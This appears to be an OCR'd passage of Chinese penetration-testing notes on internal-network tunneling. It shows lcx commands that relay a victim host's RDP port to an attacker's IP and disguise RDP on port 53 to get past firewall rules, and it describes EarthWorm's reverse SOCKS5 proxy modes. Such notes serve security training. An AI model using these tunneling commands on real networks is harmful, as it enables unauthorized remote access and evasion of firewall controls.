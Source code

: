 传输层
	端口转发/映射
	lcx
	nc
	powercat
应用层
	socks代理

##### 6.2.1 Lcx工具

lcx是一款强大的内网端口转发工具，用于将内网主机开放的内部端口映射到外网主机（有公网IP）任意端口

LCX两大功能:

​	1)端口转发(listen和slave成对使用)
​	2)端口映射(tran)

靶机执行:

- Lcx.exe -slave 攻击机IP <攻击者端口，如5115> 受害者IP <受害者端口，如3389>

攻击机执行:

- 监听5115端口并转发到33891上

- Lcx.exe -listen 5115 33891

攻击者远程连接[公网的主机] :

- Windows: mstsc——127.0.0.1:33891
- Kali: rdesktop-u用户名-p密码 127.0.0.1:33891

若防火墙限制，部分端口如3389无法通过防火墙[内网机器防火墙禁止3389出站]，此时可以将该目标主机的3389端口透传到防火墙允许的其他端口

内网靶机执行:

- lcx.exe -tran 53 靶机ip 3389 // 没有指定入站IP代表任意IP都可以即0.0.0.0 端口映射和NAT类似
- 攻击者远程连接,直接远程桌面连接到到:靶机IP:53

##### 6.2.2EarthWorm-内网穿透

EarthWorm （简写ew）是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发

代理类别:

- HTTP代理
- SOCKS代理.
- FTP代理
- Telnet代理
- SSL代理

该工具共有 6种命令格式（ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran）

其中SOCKS5服务的核心逻辑支持由ssocksd和rssocks提供，分别对应正向与反向socks代理

- ssocksd 用来开启socks5代理服务
- rssocks 本地启用socks5服务，并反弹到另一IP地址
- rcsocks 接收反弹过来的socks5服务，并转向另一端口
- 其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路
